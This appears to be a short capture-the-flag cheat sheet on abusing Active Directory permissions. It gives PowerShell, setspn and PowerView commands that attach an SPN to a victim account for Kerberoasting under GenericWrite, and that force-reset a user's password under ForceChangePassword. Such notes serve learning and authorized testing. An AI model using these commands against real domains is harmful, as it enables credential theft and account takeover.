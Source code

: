 ## Notes On ACL's

### GenericWrite 

Tie an SPN to the user whom you have *GenericWrite* on, and invoke a *Kerberoast* to get a crackable hash

```powershell
# setspn should be available on the DC

setspn -a MSSQLSvc/<DOMAIN>:1433 <DOMAIN>\<USER

# Example

setspn -a MSSQLSvc/megacorp.local:1433 megacorp.local\jorden
```

Alternatively, import *PowerView* and use it to tie the SPN.

```powershell
Set-DomainObject -Identity <USER> -SET @{serviceprincipalname='nonexistent/tobeatelite'}

# Example

Set-DomainObject -Identity maria -SET @{serviceprincipalname='nonexistent/tobeatelite'}
```

Check to make sure that the SPN was created successfully. You should see the new SPN and the username in the output.

```powershell
Get-NetUser -SPN | select serviceprincipalname
```

If successful: Kerberoast.

### ForceChangePassword

ez pwn

```powershell
cd /temp
upload /home/tobeatelite/ctf/tools/PowerView.ps1
. .\PowerView.ps1
$newpass = ConvertTo-SecureString 'Tobeatelite%' -AsPlainText -Force
Set-DomainUserPassword -Identity <USER> -AccountPassword $newpass
```
